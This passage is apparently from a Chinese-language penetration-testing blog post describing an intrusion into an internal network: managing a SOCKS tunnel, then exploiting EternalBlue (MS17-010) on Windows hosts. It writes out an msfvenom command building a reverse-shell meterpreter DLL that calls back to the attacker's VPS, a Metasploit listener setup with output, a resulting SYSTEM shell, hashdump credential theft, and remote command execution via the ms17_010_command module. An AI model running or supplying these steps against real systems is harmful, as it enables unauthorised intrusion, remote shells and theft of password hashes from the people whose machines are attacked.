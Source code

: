 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwS9MPCBQSfN0Jmeh0JiaXUx7P8ZAkwaqczJwSxbNZnRorpzNjciaPtl0g/640?wx_fmt=png)

接着访问到在服务端配置文件设置好的 web 访问端口就可以管理到这个 socks 了！

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwjpZGHHalml0z3kLHlpNQmdiarboOKZqHwmrHE5yYfCia9eBjWsHNJx7A/640?wx_fmt=png)

对内网的 Windows 机器进行永恒之蓝渗透

对内网的主机进行 MS17-010 漏洞探，发现了有很多主机都存在有永恒之蓝的漏洞，一开始我是通过 FRP 把 MSF 带入进入到对方的内网中的，但是我发现这样带入 MSF 进入到对方的内网的话打 MS17-010 成功率是真的太低了。我就使用了原生的 MS17-010 的 payload 来进行攻击，这里我使用的是图形化的漏洞 payload。这里我是通过反向的 payload 来进行攻击，如果是反向 payload 的和对方内网的机器是需要能够出外网的。首先在 VPS 上面生成一个 dll 的 payload

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=1234 -f dll > win64.dll

接着把 dll 文件改名为 x64.dll。并且把相对于的文件翻入到指定的 payload 文件夹。这里利用的 payload 格式选择为 dll。然后打开软件先检测一下是否有漏洞，这里返回了 Success! 代表具有漏洞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwtL9BS7q6LAqFwozrj2LnASySFR5e5oBFb8ctSIxkQCVbTPZhwZhjDQ/640?wx_fmt=png)

接着在 MSF 里面设置监听。监听本地的 1234 端口。也就是 payload 反弹 shell 的地址和端口

msf5 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set lhost  xxx.xxx.xxx.xxx

lhost => 192.168.8.129

msf5 exploit(multi/handler) > set lport  1234

lport => 1234

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on xxx.xxx.xxx.xxx:1234

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIw9CKXlhOMibj3Js6Vj6ngM1ibiaYIXSBz7ew7MUyRZ0TsZib1YfChNXwrjg/640?wx_fmt=png)

然后点击 attack，把 payload 发送过去，这样的话对方的主机会话反向连接到 MSF 这里了。这里我的 MSF 成功的接收到了对方反弹回来的 metepreter 的 shell

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwrLiafM9Ms0hS8EIicGXW6FDmh8rq7018WlTKw3ZEWJVftmVejRN4KINw/640?wx_fmt=png)

获取到了对方的 metepreter 的 shell 之后呢是一个 system 的权限，接着我使用 hashdump 获取它的 hash。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwpYCtSiaUR3yfHSian1nq2oqu3zJ0ClT4iaXlhD81u4uXGrsCkHrQU6hvg/640?wx_fmt=png)

还有很多的机器都有永恒之蓝的漏洞，但是是 Win7 的系统并且是 x86 构架的机器，这里反弹 shell 也不行。对于不能反弹 shell 的机器可以利用命令执行的 ms17-010 来进行提权进入到机器里面

msf5 > use auxiliary/admin/smb/ms17_010_command

msf5 auxiliary(admin/smb/ms17_010_command) > set command net user

command => net user
